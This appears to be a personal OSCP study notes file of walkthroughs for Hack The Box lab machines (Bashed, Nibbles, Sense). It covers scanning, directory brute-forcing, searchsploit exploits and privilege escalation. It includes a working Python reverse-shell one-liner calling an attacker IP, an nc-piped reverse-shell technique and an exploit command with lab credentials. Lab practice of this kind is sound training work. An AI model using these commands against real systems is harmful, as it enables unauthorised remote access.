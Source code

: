 # OSCP Preparation Boxes

``` 
FORMAT

### Approach Taken

### Lessons Learned

### Commands Used

```

## 1. Bashed

### Approach Taken
- nmap scan is run with default scripts along with version enumeration.
- Once you discover the web application on the specified port you will try to find out which version of operating system that is.
- Then running gobuster will reveal specific uris like /php & /dev which will expose sendmail & webshells
- Once getting the web shell we upload the LinEnum.sh to discover that the user can run anything as `scriptmanager` user.
- the scriptmanager user has a script which is executed by the root as a cron, we will try to leverage that cronjob by place our pentest monkey scripts to get a root shell

### Lessons Learned
- This is the very first box that we did on HTB. Ippsec showed how you need to document your findings as you try to solve the box
- Enumeration is a very important step.
- The way we should use cherrytree to document findings is the important lesson learned here 

### Commands Used
```
nmap -sC -sV -oA nmap_bashed 10.10.10.68

gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 2. Nibbles

### Approach Taken
- nmap scan is run with default scripts along with version enumeration
- gobuster is run but nothing is revealed
- Hence we try to intercept the request with burp, & when we look at the server response we get pointed out to a specific uri path which is /nibbleblog
- When we explore that we get the software used which is nibbleblog
- we will download a version of nibbleblog from the internet, and we will explode in a local directory
- we will try to query the version within this exploded path & find the file which exposes that version
- we will then try to navigate the same uri path on the web application
- with this the version information is also exposed.
- the next step is to find out what vulnerabilities can be found with the app & its version being known
- we simply use searchsploit & find out the vulns
- we can simply execute the script or do the same with metasploit, this is the easy way of getting a shell on the box
- once you will get a shell you will list the sudo privs and find out that a specific script can be executed as root, you will modify this script to get a root escalation and a root shell

### Lessons Learned
- If gobuster goes south, you will need to find out what is the web application software running
- Once the software running is known, we will try to find out which version of web app is running
- You can download a copy from internet & find files where the version information is exposed, we can try to use that info/file detail with the app/box that we want to compromise
- once the version & app info is known, use searchsploit or cve details to find out exploits or vulnerabilities.
- the go for further enumeration to privilege escalate yourselves

### Commands Used
```
nmap -sC -sV -oA nmap_nibbles 10.10.10.75

gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

searchsploit nibbleblog 4.0.3

searchsploit -m php/remote/38489.rb
```

## 3. Sense

### Approach Taken
- After running nmap & gobuster you will find users who can use weak credentials
- Once you login you will find the app being used & its version
- You will find the CVE details & vulns (command injection here is the key vuln)
- You will leverage command injection with the help of burp repeater & will try to get a shell on the system
- Once the shell is obtained, you are already root so nothing further to be done

### Lessons Learned
- Running burp is heavily acquianted here especially using repeater
- Use gobuster to expose different types of file extensions and they can be a critical vector to spot authentication related information
- What if your are banned or locked out, you can use different techniques like `ssh -D` or proxy chains or burp proxying this is a very useful technique
- played with nc in different ways where you can submit a bunch of code by using `nmap -lnvp <lport> < pentest_pyth_script.txt` & when you do `nc <attack-host> <lport> | python` you will get passed the pentest_pyth_script.txt and you can get a reverse shell by setting up another listener on attack box, this technique is amazing whenever passing the code around with command injection becomes difficult.

### Commands Used
```
nmap -sC -sV -oA nmap_sense 10.10.10.60

gobuster dir -t 64 -k -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt

searchsploit pfsense 2.1.3

searchsploit -m php/webapps/43560.py

./43560.py --rhost 10.10.10.60 --lhost 10.10.14.25 --lport 4444 --username rohit --password pfsense

``` 

## 4. Node

### Approach Taken

### Lessons Learned

### Commands Used
